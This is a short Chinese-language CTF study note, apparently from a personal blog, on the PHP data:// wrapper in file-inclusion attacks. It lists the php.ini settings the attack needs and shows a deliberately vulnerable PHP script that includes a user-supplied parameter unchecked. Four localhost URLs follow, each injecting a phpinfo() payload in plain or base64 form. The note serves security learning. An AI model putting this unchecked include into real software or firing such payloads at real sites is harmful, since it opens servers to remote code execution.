 ![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/C2C7E2186C364FB7B4350CD5E2857DF40a34f0023185.png)

data://

data:资源类型;编码,内容

数据流封装器

当allow_url_include 打开的时候，任意文件包含就会成为任意命令执行

PHP.ini：

data://协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on

php 版本大于等于 php5.2

xxx.php

 <?php  
$filename=$_GET["a"];  
include("$filename");  
?>  


可以

http://127.0.0.1/xxx.php?a=data://text/plain,<?php phpinfo()?>
or
http://127.0.0.1/xxx.php?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

或者
http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>
or
http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=


